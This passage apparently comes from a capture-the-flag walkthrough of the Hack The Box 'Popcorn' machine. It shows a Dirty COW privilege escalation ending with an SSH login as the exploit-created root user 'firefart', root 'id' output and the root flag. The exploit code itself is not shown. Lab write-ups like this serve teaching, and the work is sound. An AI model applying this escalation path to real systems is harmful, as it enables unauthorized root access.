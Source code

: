 ```
www-data@popcorn:/dev/shm$ 
```

The shell seems to have hang for a long time. We wait a few minutes. Once we get the shell back we can either SSH as the new user or simply su to the new user. We'll SSH into the target with the new creds created by the exploit:

```
└─$ ssh firefart@10.10.10.6            
The authenticity of host '10.10.10.6 (10.10.10.6)' can't be established.
RSA key fingerprint is SHA256:V1Azfw43WixBJWVAsqnBuoCdUrthzn2x6VQiZjAUusk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.6' (RSA) to the list of known hosts.
firefart@10.10.10.6's password: 
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Tue Nov 16 19:24:43 EET 2021

  System load: 1.82              Memory usage: 11%   Processes:       116
  Usage of /:  7.9% of 14.80GB   Swap usage:   0%    Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Tue Oct 27 11:08:55 2020
firefart@popcorn:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@popcorn:~# 

```

We can now also grab the root flag.

```
firefart@popcorn:~# cat root.txt 
dbb27eb3bf8e8cba1804fd66cebae179
firefart@popcorn:~#​ ​ ​ ​
```

## Resources

{% embed url="https://dirtycow.ninja" %}
